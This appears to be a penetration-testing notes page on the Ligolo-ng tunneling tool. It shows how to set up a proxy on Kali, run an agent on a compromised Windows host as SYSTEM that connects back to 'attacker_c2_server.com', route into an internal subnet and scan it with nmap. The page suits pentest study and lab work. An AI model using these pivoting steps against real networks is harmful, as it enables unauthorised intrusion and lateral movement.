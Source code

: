 ```yaml
---
description: An advanced, yet simple, tunneling tool that uses TUN interfaces.
---
```


# Ligolo-ng

[https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

## Starting Ligolo

You should transfer an agent client to your target machine.&#x20;

### Setting up a NIC

When using Linux, you need to create a tun interface on the Proxy Server (C2):

{% code overflow="wrap" %}
```bash
#sudo ip tuntap add user [your_username] mode tun ligolo
#sudo ip link set ligolo up

Kali> sudo ip tuntap add user iptracej mode tun ligolo
Kali> sudo ip link set ligolo up
Kali> ifconfig
```
{% endcode %}

### Starting a Proxy

```bash
# ./proxy -h # Help options 
Kali> proxy -selfcert
```

### Staring an Agent

{% code overflow="wrap" %}
```bash
# $ ./agent -connect attacker_c2_server.com:11601 
CMD> .\agent.exe -connect 172.16.11.11:11601 -retry -ignore-cert
```
{% endcode %}

### Proxy Operation

{% code overflow="wrap" %}
```bash
# INFO[0102] Agent joined.  name="NT AUTHORITY\\SYSTEM@MS01" remote="192.168.100.2:49719"
```
{% endcode %}

Use 'session' command to select the agent. You can select a sessin number here.&#x20;

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">#ligolo-ng » <a data-footnote-ref href="#user-content-fn-1">session</a> 
#? Specify a session : 1 - NT AUTHORITY\SYSTEM@MS01 - 192.168.100.2:49719
</code></pre>

Use 'ipconfig' command to select the agent.&#x20;

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">#[Agent : NT AUTHORITY\SYSTEM@MS01] » <a data-footnote-ref href="#user-content-fn-1">ifconfig </a>
┌───────────────────────────────────────────────┐
│ Interface 0                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet0                      │
│ Hardware MAC │ 00:0c:29:3c:a0:bb              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 192.168.100.2/24               │
└──────────────┴────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 1                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet1                      │
│ Hardware MAC │ 00:0c:29:3c:a0:c5              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 10.10.1.2/24                   │
└──────────────┴────────────────────────────────┘
┌──────────────────────────────────────────────┐
│ Interface 2                                  │
├──────────────┬───────────────────────────────┤
│ Name         │ Loopback Pseudo-Interface 1   │
│ Hardware MAC │                               │
│ MTU          │ -1                            │
│ Flags        │ up|loopback|multicast|running │
│ IPv6 Address │ ::1/128                       │
│ IPv4 Address │ 127.0.0.1/8                   │
└──────────────┴───────────────────────────────┘
</code></pre>

### Add an route to your target network

{% code overflow="wrap" %}
```bash
Kali> sudo ip route add 10.10.1.0/24 dev ligolo
Kali> ip route

# Remove the route
# Kali> sudo ip route del 10.10.1.0/24 dev ligolo
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

### Start tunnel&#x20;

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">#[Agent : NT AUTHORITY\SYSTEM@MS01] » <a data-footnote-ref href="#user-content-fn-1">tunnel_start</a>
#[Agent : NT AUTHORITY\SYSTEM@MS01] » INFO[1113] Starting tunnel to NT AUTHORITY\SYSTEM@MS01
</code></pre>

### Kali Commands

```bash
ping -c 2 <internal machine>
nmap -sC -sv <internal machine> 
... 
```

[^1]: 

